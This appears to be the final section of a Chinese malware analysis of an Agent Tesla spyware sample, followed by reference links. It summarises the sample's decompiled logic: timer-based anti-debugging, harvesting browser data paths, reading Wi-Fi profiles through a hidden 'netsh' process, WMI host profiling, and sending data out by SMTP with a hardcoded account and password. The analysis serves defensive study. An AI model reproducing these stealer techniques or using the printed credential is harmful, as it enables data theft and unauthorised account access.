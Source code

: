 检测时间间隔来反调试：

```php
new System.Timers.Timer()----&gt;timer.Elapsed += kqb.kdv（"这是一个函数"，if (checked((int)Math.Round((double)(Environment.TickCount - kqb.zfs.dwTime) / 1000.0)) &gt; 600)）----&gt;timer.Enabled = true----&gt;timer.Interval = 30000.0----&gt;timer.Start()
```

批量浏览器操作：

```php
Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData)----&gt;list2.Add(new qeb(“浏览器名”, Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "浏览器默认路径，相对的"), true))
```

生成随值外加一些运算打乱浏览器数组顺序：

```php
new RNGCryptoServiceProvider()----&gt;NewLateBinding.LateCall(instance2, type, "GetBytes" , arguments, argumentNames, typeArguments, array2, true)----&gt;Operators.ModObject(NewLateBinding.LateIndexGet(instance, array, null), obj2)----&gt;Operators.SubtractObject(obj2, 1)
```

开启线程，查看 wifi 配置文件：

```php
new Process()----&gt;ProcessWindowStyle.Hidden----&gt;process.StartInfo.FileName=netsh----&gt;process.StartInfo.Arguments="wlan show profile"
```

使用 WMI 获取 CPU 信息：

```php
new ManagementObjectSearcher("SELECT * FROM Win32_Processor")----&gt;managementObjectSearcher.Get().GetEnumerator()----&gt;(ManagementObject)enumerator.Current----&gt;managementObject.GetPropertyValue("Name").ToString()
```

发送邮件：

```php
new SmtpClient()----&gt;new NetworkCredential("dir.fb@tolipgoldenplaza.com", "Golden@#$2019")----&gt;new MailAddress("dir.fb@tolipgoldenplaza.com")----&gt;new MailAddress("dir.fb@tolipgoldenplaza.com")----&gt;new MailMessage(from, to)----&gt;smtpClient.Send(mailMessage)----&gt;mailMessage.Attachments.Dispose()
```

0x06 参考链接：
==========

[Agent Tesla样本分析\_Y0ng.的博客-CSDN博客](https://blog.csdn.net/YANG12345_6/article/details/119538642)

[Agent Tesla商业木马来袭，印度地区首当其冲 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/383258609)

[揭秘Agent Tesla间谍木马攻击活动 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/terminal/223968.html)

[AgentTesla变种分析\_Iam0x17的博客-CSDN博客](https://blog.csdn.net/weixin_44001905/article/details/108309634)

[技术讨论 | Windows 10进程镂空技术（木马免杀） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/173532.html)
